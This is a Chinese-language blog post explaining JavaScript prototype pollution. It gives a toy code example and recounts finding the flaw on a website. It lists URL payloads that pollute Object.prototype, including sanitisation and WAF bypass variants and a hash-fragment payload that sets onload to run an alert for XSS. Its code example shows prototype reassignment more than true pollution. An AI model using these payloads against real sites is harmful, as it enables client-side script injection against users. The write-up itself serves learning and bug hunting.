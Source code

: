 ﻿# 简介
![在这里插入图片描述](https://img-blog.csdnimg.cn/6bf25416a5aa4c0e81e80166ca20536c.png)
# 什么是原型链污染？
原型链污染（Prototype Pollution）是指攻击者通过篡改目标对象的原型链来实现攻击的一种方式。在 JavaScript 中，每个对象都有一个原型对象，如果对象的属性没有在本身找到，则会在原型对象中查找，如果还没有找到，则继续在原型对象的原型对象中查找，以此类推。攻击者通过污染目标对象的原型链，可以修改目标对象的属性，绕过某些安全控制，甚至执行恶意代码。常见的原型链污染攻击包括修改全局对象、污染 Node.js 内置模块、修改常用库的原型对象等

一个常见的原型链污染攻击的例子是使用一个可以接收JSON对象的应用程序。攻击者可以构造一个JSON对象，使其包含一个特殊构造的__proto__属性，该属性指向攻击者控制的恶意对象。当受害者程序解析JSON对象时，将继承恶意对象的属性和方法。攻击者可以使用这些属性和方法来执行恶意操作，例如窃取敏感信息或绕过访问控制。
具体来说，假设一个网站上有一个搜索栏，用户可以在其中输入要搜索的内容。后端应用程序使用JavaScript解析用户输入的搜索词，并使用eval()函数执行搜索操作。攻击者可以构造一个包含恶意__proto__属性的JSON对象，该属性指向一个恶意对象。当后端应用程序使用eval()函数执行搜索操作时，恶意对象的属性和方法将被继承，并可以用于执行攻击者的恶意代码。
这种攻击可以通过在JSON对象中注入恶意__proto__属性来完成。攻击者可以使用各种技术来构造恶意JSON对象，例如使用JSON.parse()函数解析恶意JSON字符串，或通过XMLHttpRequest对象发送恶意JSON数据。攻击者可以通过利用JavaScript的原型继承机制，将恶意代码注入到受害者程序中，绕过访问控制并执行攻击者的恶意操作


以下是一个简单的原型链污染攻击的代码例子：
```
// 定义一个构造函数Person
function Person(name) {
  this.name = name;
}

// 创建一个原型对象，包含一个greet()方法
Person.prototype.greet = function() {
  console.log("Hello, " + this.name);
}

// 定义一个对象，污染Person原型链
var evilObj = {
  greet: function() {
    console.log("Ha ha, I hacked your prototype!");
  }
};

// 将evilObj作为参数传递给Object.create()方法，并将其结果赋给Person原型
Person.prototype = Object.create(evilObj);

// 实例化Person对象并调用greet()方法
var person = new Person("Alice");
person.greet(); // 输出：Ha ha, I hacked your prototype!
```
在这个例子中，我们定义了一个构造函数Person和一个原型对象，其中原型对象包含一个greet()方法。然后，我们创建了一个名为evilObj的恶意对象，并将其作为参数传递给Object.create()方法，以便将其结果赋给Person原型。由于Person的原型被污染，因此实例化的Person对象现在具有恶意对象的greet()方法。因此，当我们调用person.greet()方法时，输出为“Ha ha, I hacked your prototype!”而不是原本的“Hello, Alice”。

在对网站做测试的时候，偶然发现了这个
```
?__proto__.zhero=zhero
```
![image.png](https://img-blog.csdnimg.cn/img_convert/8d2b1889c2b084725ac7bfe9a4762d46.png#averageHue=#f7f7f6&clientId=u1b425bae-d61e-4&from=paste&id=ud4e46a75&name=image.png&originHeight=447&originWidth=700&originalType=url&ratio=1&rotation=0&showTitle=false&size=126237&status=done&style=none&taskId=u737f0988-301d-4b4e-a940-514bc69b447&title=)
几次尝试，但没有成功，如果输入没有被递归清理：
```
__pro__proto__to__.zhero=zhero
```
构造函数（作为一个对象，它也继承了一个原型）：
```
constructor[prototype][zhero]=zhero
```
记住要针对每种情况测试访问对象的两种方式（点表示法和括号表示法）。这在绕过 WAF 后会产生影响，具体取决于 URL 及其参数的处理方式

在研究web archive上的目标时，许多 URL 都包含#字符，后面跟着有用的参数。这表明它不仅仅是一个锚点，如果应用程序使用了这个字符，那么管理 URL 及其参数的函数肯定会考虑到它
```
#__proto__[zhero]=zhero
```
经过测试，原型已经被污染了：
![image.png](https://img-blog.csdnimg.cn/img_convert/c192fd37ec2bc90ec901b7a4ff3bf686.png#averageHue=#222629&clientId=u1b425bae-d61e-4&from=paste&id=u746cbf33&name=image.png&originHeight=76&originWidth=278&originalType=url&ratio=1&rotation=0&showTitle=false&size=5699&status=done&style=none&taskId=u60846c6e-f3f3-499b-9545-e2a93f381eb&title=)
f12查看源代码，看之前通过 URL 注入的键值对在样式标签中用作的属性值
![image.png](https://img-blog.csdnimg.cn/img_convert/7547c212867c31ee0f1ea2767a8169f5.png#averageHue=#173c5b&clientId=u1b425bae-d61e-4&from=paste&id=u1aea385e&name=image.png&originHeight=43&originWidth=700&originalType=url&ratio=1&rotation=0&showTitle=false&size=30347&status=done&style=none&taskId=ub3309361-b46a-4121-814a-136e4b17cef&title=)
js代码里也没有过滤
![image.png](https://img-blog.csdnimg.cn/img_convert/0cd137a85f998bfd9b99b1f10eab8760.png#averageHue=#242429&clientId=u1b425bae-d61e-4&from=paste&id=u136e0148&name=image.png&originHeight=154&originWidth=544&originalType=url&ratio=1&rotation=0&showTitle=false&size=23000&status=done&style=none&taskId=u295de9a1-fa76-493d-a454-735097974d8&title=)
直接打
```
#__proto__[onload]=alert(%22XSS by zhero_%22)
```
![image.png](https://img-blog.csdnimg.cn/img_convert/a59a89ae92bf0ccfb797e46ab4fd7395.png#averageHue=#9fa09f&clientId=u1b425bae-d61e-4&from=paste&id=u238cfd2d&name=image.png&originHeight=126&originWidth=700&originalType=url&ratio=1&rotation=0&showTitle=false&size=24822&status=done&style=none&taskId=u15e6f699-6591-4117-8ef7-275d92c436f&title=)

